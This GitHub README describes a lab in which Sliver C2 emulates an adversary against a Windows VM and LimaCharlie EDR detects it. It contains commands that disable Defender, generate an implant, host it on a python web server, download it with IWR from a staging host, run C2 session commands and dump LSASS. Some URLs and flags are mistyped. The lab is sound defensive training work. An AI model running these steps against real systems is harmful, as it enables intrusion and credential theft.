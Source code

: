# **LimaCharlie & Sliver C2: Adversary Emulation Lab**

**Objective**

This repository explores adversary tactics using Sliver C2 for command-and-control attack simulation and demonstrates defensive strategies using LimaCharlie EDR. It aims to replicate real-world attack scenarios, refine detection logic, and evaluate telemetry insights."



**Skills Learned**

**🔹 Endpoint Detection & Response (EDR)**
- Deploying LimaCharlie Sensors for real-time telemetry collection.
- Integrating Sysmon with LimaCharlie to capture detailed process activity.
- Analyzing process telemetry to detect command-and-control (C2) activity.
- Building Detection & Response (D&R) rules to mitigate attacks.

**🔹 Adversary Emulation & C2 Frameworks**
- Setting up Sliver C2 to simulate real-world attack scenarios.
- Generating and deploying Sliver payloads for command execution.
- Interacting with active C2 sessions to mimic adversary behavior.


**🔹 Threat Hunting & Malware Analysis**
- Examining process and file hashes to investigate suspicious binaries.
- Using VirusTotal to assess malware reputation and identify unknown threats.
- Dumping LSASS memory to simulate credential theft tactics.
- Filtering LimaCharlie telemetry for sensitive event detection.






**Tools Used**

🔹 Virtual Machines (VMs)
- Windows 10 (Target Machine) – Acts as the endpoint where Sliver C2 payloads are executed. LimaCharlie sensor is deployed here to capture telemetry.
- Kali Linux (Attacker Machine) – Used for launching Sliver C2, executing commands, and emulating adversary techniques.
- Ubuntu Server (Malware Storage) – Acts as a staging server for adversary-controlled payload distribution. A temporary Python web server hosts the Sliver C2 payload, mimicking real-world malware delivery methods.


🔹 LimaCharlie (EDR Platform)
A cloud-native endpoint detection & response (EDR) tool used to capture and analyze system telemetry. It provides:
- Real-time endpoint monitoring and security event logging.
- Detection & Response (D&R) rules for identifying adversary behaviors.
- Sysmon integration for enhanced process visibility.

🔹 Sliver C2 (Command & Control Framework)
An open-source command-and-control (C2) tool used to simulate real-world adversary techniques. Provides:
- Payload generation for remote access and execution.
- Session management to interact with compromised endpoints.
- Defensive tool awareness by highlighting detected security features.



**Steps :**

First thing we got to do is to remove security defense in Windows VM.
![image](https://github.com/user-attachments/assets/522aa5c2-c2f6-47f6-8298-5446112cf5c8)
![image](https://github.com/user-attachments/assets/dbf3fb49-1cbd-4e0e-986c-a8f1940a01fa)
![image](https://github.com/user-attachments/assets/fdee6963-0944-43e2-9838-a5c1abe6feff)


Some instances, the security settings will automatically turn on again, so we will ‘double disable’ it in gpedit.msc
(Computer configuration > Administrative Template > Windows Components > Microsoft Defender Antivirus)
![image](https://github.com/user-attachments/assets/cdcfb01e-7266-490f-b772-794580d5a60d)



Install Sysmon in Windows VM
-	Launch Administrative Powershell console 
-	`Invoke-WebRequest -Uri https://download.systernals.com/files/Sysmon.zip -Outfile C:\Windows\Temp\Sysmon.zip`
-	Unzip Sysmon
-	Download SwiftonSecurity’s Sysmon config.
-	Invoke-WebRequest `-Uri https://raw.githubuser.com/SwiftonSecurity/sysmon-config/master/sysmonconfig-export.xml -Outfile C:\Windows\Temp\Sysmon\sysmonconfig.xml`
-	install Sysmon with Swift’s config
![image](https://github.com/user-attachments/assets/afe2d98a-898b-435a-baf3-cce9051807be)


Create organization in LimaCharlie (https://limacharlie.io/)
![image](https://github.com/user-attachments/assets/a7823c1b-a5a5-415b-b1f2-61f97550431d)

Add demo configuration : Extended Detection & Response Standard.

Add sensor. Follow the instruction in LimaCharlie Docs in telemetry sensor deployment
(https://docs.limacharlie.io/v1/docs/telemetry-sensor-deployment)
![image](https://github.com/user-attachments/assets/d4686476-6399-40a7-ad26-889a85327682)
![image](https://github.com/user-attachments/assets/2fd688a9-2dcf-49bb-a32a-d7db7f1d5426)
![image](https://github.com/user-attachments/assets/2b939926-b417-4df3-9140-6dccf88e33f7)
![image](https://github.com/user-attachments/assets/575a8aa6-f742-45ae-b3d5-ab28063de086)

Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry;
![image](https://github.com/user-attachments/assets/6e793633-8d4e-4465-894a-fde76fce9571)

![image](https://github.com/user-attachments/assets/faedc2b9-362c-4043-a80a-066ff7ab0b0c)


Setting up the attack: 
In Kali Linux, connect in Ubuntu server using SSH (ssh ‘user’@’ubuntu-server-IP’)

Then download the Sliver : wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -0 /usr/local/bin/sliver-server

Then make it executable : chmod +x /usr/local/bin/sliver-server

Also install mingw-w64 for additional capabilities : `apt install -y mingw-w64`
Launch sliver (sliver-server)
![image](https://github.com/user-attachments/assets/1847ef67-7a85-4b6b-8073-e66ff4839fd7)

Generate C2 payload : generate –http [Ubuntu server IP] –save /opt/sliver
![image](https://github.com/user-attachments/assets/86f3b718-f5e8-4d4d-8ede-64abeac8d593)

Setup a temporary server in Ubuntu server so the payload can be download by or target pc :
python3 -m http.server 80
Then switch to our Windows VM then launch administrative powershell :
IWR -Uri http://10.0.2.13/LOW_BAGGAGE.exe -Outfile C:\Users\vboxuser\Downloads\LOW_BAGGAGE.exe
![image](https://github.com/user-attachments/assets/068375e9-8f3b-48d7-bfcb-0b533b70ed6f)

Back to our (SSH)ubuntu server
Quit the python web server then relaunch the sliver-server, start http listener by typing ‘http’
![image](https://github.com/user-attachments/assets/43587b79-32a0-465f-aefc-99639eb26318)

Return to Windows VM then execute the C2 Payload using administrative powershell.

![image](https://github.com/user-attachments/assets/f05dbc8d-7003-49fb-9cd0-ab1fc75171ac)


![image](https://github.com/user-attachments/assets/15d8eced-0fd9-4782-aa2d-8667b593b80a)
Verify by typing ‘sessions’
![image](https://github.com/user-attachments/assets/ccca4c27-7d32-4eb5-9f7d-d5b86cc50b6b)

Interact with C2 session : ‘use [session_id]
![image](https://github.com/user-attachments/assets/de63e25a-2c57-44c9-86e7-2c72ea213dff)

Get basic info: `whoami && info`

![image](https://github.com/user-attachments/assets/f31691f5-992d-4c0d-a32a-4c53e49ca3f5)

`getprivs` :

![image](https://github.com/user-attachments/assets/e56a8eba-3dfb-4096-80b4-ed654cb68ae2)

![image](https://github.com/user-attachments/assets/bacd162e-5a94-4360-a5c2-d9826b16d89a)

`ps -T` (sliver highlight the defensive tool as red and green as its own)
![image](https://github.com/user-attachments/assets/ed37bb45-62b7-48a5-beef-16ee45352e7b)


Go to LimaCharlie’s Process Explorer, select the Windows VM, and analyze running processes. Look for suspicious parent-child process chains (e.g., powershell.exe -> LOW_BAGGAGE.exe) as indicators of malicious execution.


![image](https://github.com/user-attachments/assets/0090cd77-b48a-4be1-8795-141ec01084d6)
![image](https://github.com/user-attachments/assets/94d49b43-c96e-4788-aecb-20b4b918c4a9)
![image](https://github.com/user-attachments/assets/8feefe4d-9451-4cf9-8ac8-b7c3db7c1721)

resources to learn more about windows processes and binaries threat actors use : 

https://www.sans.org/posters/hunt-evil/

https://lolbas-project.github.io/#


Go to file system of our windows machine in LimaCharlie to get the hash of file then inspect it to Virustotal.
![image](https://github.com/user-attachments/assets/31a37a86-5eb3-4c47-b449-81bfec0b325c)

**When you tried to check it to Virustotal. No results will found. 
But it doesn’t mean its innocent.
It’s just VirusTotal is never seen it before. This makes sense because we just generated the payload.
The important lesson for any analyst to learn : Files not flagged by VirusTotal may be custom-built malware designed for targeted attacks. Always corroborate findings with static analysis (strings, entropy checks) and behavioral analysis (sandbox execution)



Next, lets dump the **lsass.exe** process from memory 

![image](https://github.com/user-attachments/assets/fcdb62d6-a7d1-482b-844e-d1300e2dfc19)

![image](https://github.com/user-attachments/assets/a3517011-f22c-4f91-beb3-5775ddfa09ec)


Go back to Timeline then filter for : “SENSITIVE_PROCESS_ACCESS”
![image](https://github.com/user-attachments/assets/07dc4bf9-05f8-413a-a2c2-779cfd03f577)


Then build a D&R rules from it. 
![image](https://github.com/user-attachments/assets/719bdde3-2a97-4374-8fbd-4dc78ef23451)

![image](https://github.com/user-attachments/assets/131deeb7-ca76-41e0-878a-fc769cf561e5)

Scroll to the bottom to test our D&R rule.
Paste the SENSITIVE_PROCESS_ACCESS code then click Test Event.
Save the rule.


![image](https://github.com/user-attachments/assets/d214a89a-277d-48d4-ad37-7179554ed140)

Try to dump the lsass.exe again using the same command to check if our rule is really working.

![image](https://github.com/user-attachments/assets/7e6780ad-4b1b-462a-839b-d36020855ab7)

![image](https://github.com/user-attachments/assets/3322d89e-b917-4468-8b68-33ccc7276477)













